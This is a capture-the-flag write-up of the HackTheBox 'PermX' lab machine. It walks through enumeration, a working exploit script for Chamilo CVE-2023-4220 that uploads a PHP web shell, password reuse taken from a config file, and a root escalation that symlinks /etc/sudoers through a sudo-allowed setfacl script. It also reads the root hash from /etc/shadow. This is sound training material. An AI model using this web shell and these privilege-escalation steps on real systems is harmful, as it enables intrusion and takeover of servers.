


# PermX - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

**User:** Found a virtual host `lms.permx.htb` running `Chamilo`. Uploaded a web shell using `CVE-2023-4220`. Discovered the password for user `mtz` in `/var/www/chamilo/app/config/configuration.php`.

**Root:** Ran `sudo -l` and found that we can execute `/opt/acl.sh`, which runs `/bin/setfacl` as `root`. Created a symlink to the `sudoers` file and added `mtz` to the sudoers to gain a `root` shell.


## PermX Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ nmap -sV -sC -oA nmap/PermX 10.10.11.23
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-23 22:35 IDT
Nmap scan report for 10.10.11.23
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e25c5d8c473ed872f7b4800349866def (ECDSA)
|_  256 1f41028e6b17189ca0ac5423e9713017 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


By running `gobuster` to search for virtual hosts, we discovered `lms.permx.htb`:
```console
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ gobuster vhost -u http://permx.htb/ -w ./subdomains-top1milion.txt -o vho -t 80 --no-error 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://permx.htb/
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2024/07/23 22:57:58 Starting gobuster in VHOST enumeration mode
===============================================================

Found: lms.permx.htb (Status: 200) [Size: 19347]

```

Which hosted the following web page:



We can use https://github.com/charlesgargasson/CVE-2023-4220 to upload a web shell as follows:
```console
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ cat exp.sh
#!/bin/bash
HOST='http://lms.permx.htb'
CMD='id'

URL_UPLD='main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
URL_FILE='main/inc/lib/javascript/bigupload/files/rce.php'

cat <<'EOF'>/tmp/rce.php
<?php
$a=popen(base64_decode($_REQUEST["aoOoy"]),'r');while($b=fgets($a,2048)){echo $b;ob_flush();flush();}pclose($a);
?>
EOF

curl -F 'bigUploadFile=@/tmp/rce.php' "$HOST/$URL_UPLD"
CMD=$(echo $CMD|base64 -w0| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")
curl "$HOST/$URL_FILE?aoOoy=$CMD"

```

Run it:
```console
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ bash exp.sh 
The file has successfully been uploaded.uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

And now we have a web shell at http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php.

We can interact with the web shell using the following script:
```console
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ cat shell.sh
#!/bin/bash

# Infinite loop
while true; do
    # Prompt the user for input
    read -p ">  " user_input

    # Check if the user typed 'exit'
    if [ "$user_input" == "exit" ]; then
        echo "Exiting..."
        break
    fi

    # Execute the user input as a command
    CMD=$(echo $user_input |base64 -w0| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")
    curl http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?aoOoy=$CMD    
done
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ bash shell.sh 
>  whoami
www-data

```

By searching for `permx.htb`, we found the following:
```console
>  grep -rni "permx.htb" /var/www/chamilo/
/var/www/chamilo/app/config/configuration.php:29:$_configuration['root_web'] = 'http://lms.permx.htb/';
/var/www/chamilo/web/build/main.english.js:307:                    var url = 'http://lms.permx.htb/main/exercise/exercise_submit.php?&'
>  cat /var/www/chamilo/app/config/configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

...
> >  ls -ltra /home
total 12
drwxr-xr-x  3 root root 4096 Jan 20  2024 .
drwxr-xr-x 18 root root 4096 Jul  1 13:05 ..
drwxr-x---  5 mtz  mtz  4096 Jul 22 00:21 mtz

```

We found the database password, `03F6lY3uXAP2bkW8`, which also works for the `mtz` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/PermX]
└──╼ $ ssh mtz@permx.htb 
The authenticity of host 'permx.htb (10.10.11.23)' can't be established.
ECDSA key fingerprint is SHA256:dbbvv50wA8CSU7VZNqyV/D8vETjDHvvl7mV1Fxy4TeM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb,10.10.11.23' (ECDSA) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Jul 23 08:26:25 PM UTC 2024

  System load:           0.02
  Usage of /:            59.8% of 7.19GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             240
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.23
  IPv6 address for eth0: dead:beef::250:56ff:fe94:57f6


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jul 22 00:11:20 2024 from 10.10.14.122
mtz@permx:~$ cat user.txt
8162ec5648e3646c9ed05531f3ee0911
```

And we get the user flag `8162ec5648e3646c9ed05531f3ee0911`.

### Root

By running `sudo -l`, we can see that the `mtz` user can execute `/opt/acl.sh` as `root`:
```console
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Let's examine this script `/opt/acl.sh`:
```console
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

We can create a symlink to the `sudoers` file to edit it and add the `mtz` user to the sudoers list:
```console
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/sudoers
```

Now we can add `mtz ALL=(ALL:ALL) NOPASSWD: /bin/bash` to the `sudoers` file:
```console
mtz@permx:~$ cat sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults	use_pty

# This preserves proxy settings from user environments of root
# equivalent users (group sudo)
#Defaults:%sudo env_keep += "http_proxy https_proxy ftp_proxy all_proxy no_proxy"

# This allows running arbitrary commands, but so does ALL, and it means
# different sudoers have their choice of editor respected.
#Defaults:%sudo env_keep += "EDITOR"

# Completely harmless preservation of a user preference.
#Defaults:%sudo env_keep += "GREP_COLOR"

# While you shouldn't normally run git as root, you need to with etckeeper
#Defaults:%sudo env_keep += "GIT_AUTHOR_* GIT_COMMITTER_*"

# Per-user preferences; root won't have sensible values for them.
#Defaults:%sudo env_keep += "EMAIL DEBEMAIL DEBFULLNAME"

# "sudo scp" or "sudo rsync" should be able to use your SSH agent.
#Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"

# Ditto for GPG agent
#Defaults:%sudo env_keep += "GPG_AGENT_INFO"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
mtz ALL=(ALL:ALL) NOPASSWD: /bin/bash

```

We can now obtain a `root` shell:
```console
mtz@permx:~$ sudo bash
root@permx:/home/mtz# cat /root/root.txt
8017107b3d37caed62b0e04d4e15a9bf

```

And we get the root flag `8017107b3d37caed62b0e04d4e15a9bf`.

PDF password:
```console
root@permx:/home/mtz# cat /etc/shadow | grep root | cut -d':' -f2
$y$j9T$VEMcaSLaOOvSE3mYgRXRv/$tNXYdTRyCAkwoSHhlyIoCS91clvPEp/hh0r4NTBlmS7
```